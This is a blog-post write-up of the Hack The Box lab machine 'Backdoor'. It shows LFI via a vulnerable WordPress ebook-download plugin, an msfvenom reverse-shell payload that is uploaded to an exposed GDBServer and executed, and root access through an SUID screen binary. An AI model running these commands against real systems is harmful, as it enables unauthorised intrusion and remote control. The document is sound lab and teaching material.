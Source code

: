 ```yaml
---
layout: post
title: "HTB - Backdoor"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```


Backdoor is a HTB machine that is rated to be of easy difficulty. However, I think that this machine is defintely an interesting machine that taught me about vulnerabilities surrounding the use of GDBServer.

<!--more-->

## HTB - Backdoor
**Box** : Backdoor\
**IP Address** : 10.129.106.84\
**Operating System** : Linux

## Remarks
- This machine makes use of the lesser known rce surrounding GDBServers. So, do take some time to research on the GDBServer before starting the machien
- Another thing to note is that this machine may not be as straightforward when exploiting the LFI vulnerabilities. Do make sure to cover all the possible points of exploitation

## Enumeration

Just like any other box, we will first start off with doing a Nmap scan of the IP address. For this machine, other than the typical ports 22 and 80, we also obtain a port 1337. However, this port seems to be a false positive as we are unable to detect any known version or service.

## Discovery

Before we delve into finding the endpoints for the web service, we have to add the IP address to our ```/etc/hosts``` file. 

```
10.129.106.84    backdoor.htb 
```

First, we will use Gobuster to enumerate the endpoints on http://backdoor.htb. From the endpoints, we can easily see that this website possibly uses wordpress plugins. 

```
http://10.129.106.84:80/index.php            (Status: 301) [Size: 0] [--> http://10.129.106.84:80/]
http://10.129.106.84:80/license.txt          (Status: 200) [Size: 19915]
http://10.129.106.84:80/readme.html          (Status: 200) [Size: 7346]
http://10.129.106.84:80/wp-content           (Status: 301) [Size: 319] [--> http://10.129.106.84/wp-content/]
http://10.129.106.84:80/wp-admin             (Status: 301) [Size: 317] [--> http://10.129.106.84/wp-admin/]
http://10.129.106.84:80/wp-config.php        (Status: 200) [Size: 0]
http://10.129.106.84:80/wp-includes          (Status: 301) [Size: 320] [--> http://10.129.106.84/wp-includes/]
http://10.129.106.84:80/wp-trackback.php     (Status: 200) [Size: 135]
http://10.129.106.84:80/wp-login.php         (Status: 200) [Size: 5758]
http://10.129.106.84:80/xmlrpc.php           (Status: 405) [Size: 42]
http://10.129.106.84:80/wp-links-opml.php    (Status: 200) [Size: 223]
```

## Obtaining the user flag

Since we know that this website potentially uses wordpress plugins, we will navigate to http://backdoor.htb/wp-content-plugins to find out the wp plugins that are being used. From the endpoint, we are able to find that this website is using a vulnerable ebook-download plugin. 

From (exploit-db)[https://www.exploit-db.com/exploits/39575], we can see that this plugin is vulnerable to directory traversal. This can then be futhur exploited into a LFI as the payload file contents will be loaded. We will verify this by using /etc/passwd as our payload.
![LFI](../assets/backdoor/lfi.png)

Since we know that the website is vulnerable to LFI, I proceeded to try serveral ways of achieving RCE via LFI, but I was unable to exploit them. Finally, I was able to find that port 1337 was actually running GDBServer by bruteforcing /proc/*/cmdline using Burp Suite.

![GDB Server](../assets/backdoor/gdb_server.png)

With furthur research on GDBServer and the writeup [here](https://security.tencent.com/index.php/blog/msg/137), I realized that a rce could be exploited on a publicly-exposed GDB server. 

However, there are 2 pieces of information that we have to find out before we can continue with the exploit:
- Architecture of the server (Whether it is 32-bit or 64-bit)
- Low-privilege user on the server

For the low-privilege user, it can be easily found by again making use of the LFI that we have found earlier to view the /etc/passwd file. From there, the low-privilege user is easily revealed to be ```user```

Lastly, for the operating system, we will make use of the LFI again to read the /proc/version file. From there, we are able to find that the server is running on amd64, which tells us that the server is a 64-bit architecture.

Now that we have the required information, we will then proceed to use msfvenom to generate the reverse shell binary. This binary will then be uploaded to the GDB Server and executed to create a reverse shell in the next step. 

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=443 -f elf -o rev.elf
```

The last step in generating the reverse shell is to first connect to the gdb server at 10.129.106.84:1337. Afterwards, we will upload the rev.elf that we have generated onto the /home/user directory on the gdb server and finally, all we have to do is to execute the rev.elf to spawn the reverse shell.

```
target extend-remote 10.129.106.84:1337
cd /home/kali/rev.elf
// upload reverse shell payload
remote put rev.elf rev.elf
// set directory of reverse shell payload
set remote-exec rev.elf /home/user/rev.elf
// execute reverse shell payload
run
```

After spawning the reverse shell, the user flag can then be easily obtained from /home/user directory.

```
user@Backdoor:/home/user$ cat user.txt
cat user.txt
<Redacted user flag>
```

## Obtaining root flag

From the LinEnum privilege escalation script, we notice that /usr/bin/screen is being set with an SUID bit, which is unusual.

```
[-] SUID files:
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 May 26 11:50 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 473576 Jul 23 12:55 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 68208 Jul 14 22:08 /usr/bin/passwd
-rwsr-xr-x 1 root root 85064 Jul 14 22:08 /usr/bin/chfn
-rwsr-xr-x 1 root root 88464 Jul 14 22:08 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 44784 Jul 14 22:08 /usr/bin/newgrp
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
-rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 53040 Jul 14 22:08 /usr/bin/chsh
-rwsr-xr-x 1 root root 31032 May 26 11:50 /usr/bin/pkexec
```

We can easily exploit /usr/bin/screen to obtain a root shell. To do that, all we have to do is to use the ```-x``` flag to attach a non-detached screen session. We will then add in the ```root/root``` argument to specify that we are going to execute the screen executable with root privileges. 

```
user@Backdoor:/home/user$ screen -x root/root
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root) 
```

Afterwards, we can easily obtain the root flag.

```
root@Backdoor:~# cat root.txt
cat root.txt
<Redacted root flag>
root@Backdoor:~#
```